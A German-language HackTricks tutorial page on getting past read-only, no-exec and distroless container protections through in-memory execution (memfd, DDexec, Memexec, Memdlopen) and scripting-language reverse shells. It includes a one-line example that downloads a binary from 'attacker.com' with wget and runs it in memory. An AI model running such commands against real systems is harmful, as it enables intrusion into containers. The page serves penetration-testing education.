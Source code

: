 # Umgehung von FS-Schutzmaßnahmen: Nur-Lesen / Keine Ausführung / Distroless

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>

## Videos

In den folgenden Videos finden Sie die auf dieser Seite erwähnten Techniken ausführlicher erklärt:

* [**DEF CON 31 - Erforschung der Linux-Speicher-Manipulation für Stealth und Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth-Eindringungen mit DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Nur-Lesen / Keine Ausführung Szenario

Es ist immer häufiger, Linux-Maschinen mit **Nur-Lesen (ro) Dateisystemschutz** zu finden, insbesondere in Containern. Dies liegt daran, dass das Ausführen eines Containers mit einem ro-Dateisystem so einfach ist wie das Festlegen von **`readOnlyRootFilesystem: true`** im `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Auch wenn das Dateisystem als ro eingebunden ist, ist **`/dev/shm`** immer noch beschreibbar, daher können wir nichts auf die Festplatte schreiben. Dieser Ordner wird jedoch mit **Keine Ausführung-Schutz** eingebunden, sodass Sie, wenn Sie hier eine Binärdatei herunterladen, sie **nicht ausführen können**.

{% hint style="warning" %}
Aus Sicht des Red Teams wird es dadurch **kompliziert, Binärdateien herunterzuladen und auszuführen**, die nicht bereits im System vorhanden sind (wie Backdoors oder Enumeratoren wie `kubectl`).
{% endhint %}

## Einfachste Umgehung: Skripte

Beachten Sie, dass ich von Binärdateien gesprochen habe, Sie können jedoch **jedes Skript ausführen**, solange der Interpreter auf der Maschine vorhanden ist, wie ein **Shell-Skript**, wenn `sh` vorhanden ist, oder ein **Python-Skript**, wenn `python` installiert ist.

Dies reicht jedoch nicht aus, um Ihre Binärdatei-Backdoor oder andere Binärwerkzeuge auszuführen, die Sie möglicherweise ausführen müssen.

## Umgehung des Speichers

Wenn Sie eine Binärdatei ausführen möchten, das Dateisystem dies jedoch nicht zulässt, ist der beste Weg, dies zu tun, indem Sie es aus dem **Speicher heraus ausführen**, da die **Schutzmaßnahmen dort nicht gelten**.

### FD + exec-Syscall-Umgehung

Wenn Sie leistungsstarke Skript-Engines auf der Maschine haben, wie **Python**, **Perl** oder **Ruby**, können Sie die Binärdatei zum Ausführen aus dem Speicher herunterladen, in einem Speicher-Dateideskriptor (`create_memfd`-Syscall) speichern, der nicht durch diese Schutzmaßnahmen geschützt wird, und dann einen **`exec`-Syscall** aufrufen, wobei der **fd als auszuführende Datei** angegeben wird.

Hierfür können Sie das Projekt [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) verwenden. Sie können ihm eine Binärdatei übergeben und es wird ein Skript in der angegebenen Sprache generieren, in dem die Binärdatei mit den Anweisungen zum **Decodieren und Dekomprimieren** in einem mit `create_memfd`-Syscall erstellten **fd** **komprimiert und b64-codiert** wird und ein Aufruf des **exec**-Syscalls zum Ausführen.

{% hint style="warning" %}
Dies funktioniert nicht in anderen Skriptsprachen wie PHP oder Node, da sie keine **Standardmethode zum Aufrufen von Roh-Syscalls** aus einem Skript haben. Daher ist es nicht möglich, `create_memfd` aufzurufen, um den **Speicher-Dateideskriptor** zum Speichern der Binärdatei zu erstellen.

Darüber hinaus funktioniert das Erstellen eines **regulären Dateideskriptors** mit einer Datei in `/dev/shm` nicht, da Sie sie nicht ausführen dürfen, da der **Keine Ausführung-Schutz** angewendet wird.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ist eine Technik, mit der Sie den Speicher Ihres eigenen Prozesses überschreiben können, indem Sie seinen **`/proc/self/mem`** überschreiben.

Daher können Sie, indem Sie den vom Prozess ausgeführten Assemblercode kontrollieren, einen **Shellcode** schreiben und den Prozess "mutieren", um **beliebigen Code** auszuführen.

{% hint style="success" %}
**DDexec / EverythingExec** ermöglicht das Laden und **Ausführen** Ihres eigenen **Shellcodes** oder **beliebiger Binärdateien** aus dem **Speicher**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Für weitere Informationen zu dieser Technik besuchen Sie Github oder:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ist der natürliche nächste Schritt von DDexec. Es handelt sich um einen **DDexec-Shellcode-Dämon**, sodass Sie jedes Mal, wenn Sie eine andere Binärdatei ausführen möchten, DDexec nicht neu starten müssen. Sie können einfach den Memexec-Shellcode über die DDexec-Technik ausführen und dann **mit diesem Dämon kommunizieren, um neue Binärdateien zum Laden und Ausführen zu übergeben**.

Ein Beispiel, wie Sie **Memexec verwenden, um Binärdateien von einer PHP-Reverse-Shell auszuführen**, finden Sie unter [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Mit einem ähnlichen Zweck wie DDexec ermöglicht die Technik [**Memdlopen**](https://github.com/arget13/memdlopen) eine einfachere Möglichkeit, Binärdateien im Speicher zu laden, um sie später auszuführen. Es könnte sogar ermöglichen, Binärdateien mit Abhängigkeiten zu laden.

## Distroless-Bypass

### Was ist Distroless

Distroless-Container enthalten nur die **minimalen Komponenten, die zum Ausführen einer bestimmten Anwendung oder eines bestimmten Dienstes erforderlich sind**, wie Bibliotheken und Laufzeitabhängigkeiten, aber größere Komponenten wie ein Paketmanager, eine Shell oder Systemdienstprogramme sind ausgeschlossen.

Das Ziel von Distroless-Containern besteht darin, die Angriffsfläche von Containern zu **verkleinern, indem unnötige Komponenten eliminiert** und die Anzahl der ausnutzbaren Schwachstellen minimiert werden.

### Reverse-Shell

In einem Distroless-Container finden Sie möglicherweise **nicht einmal `sh` oder `bash`**, um eine normale Shell zu erhalten. Sie finden auch keine Binärdateien wie `ls`, `whoami`, `id`... alles, was Sie normalerweise in einem System ausführen.

{% hint style="warning" %}
Daher können Sie keine **Reverse-Shell** erhalten oder das System wie gewohnt **enumerieren**.
{% endhint %}

Wenn der kompromittierte Container beispielsweise eine Flask-Webanwendung ausführt, ist Python installiert und Sie können eine **Python-Reverse-Shell** erhalten. Wenn Node ausgeführt wird, können Sie eine Node-Rev-Shell erhalten, und dasselbe gilt für fast jede **Skriptsprache**.

{% hint style="success" %}
Mit der Skriptsprache können Sie das System mithilfe der Sprachfunktionen **enumerieren**.
{% endhint %}

Wenn **kein `read-only/no-exec`-Schutz** vorhanden ist, können Sie Ihre Reverse-Shell missbrauchen, um Ihre Binärdateien im Dateisystem zu **schreiben** und **auszuführen**.

{% hint style="success" %}
In dieser Art von Containern werden diese Schutzmaßnahmen jedoch in der Regel vorhanden sein, aber Sie können die **vorherigen Speicherausführungstechniken verwenden, um sie zu umgehen**.
{% endhint %}

Beispiele, wie Sie einige RCE-Schwachstellen ausnutzen können, um Skriptsprachen-**Reverse-Shells** zu erhalten und Binärdateien aus dem Speicher auszuführen, finden Sie unter [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks als PDF herunterladen** möchten, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder folgen Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **GitHub-Repositories senden**.

</details>
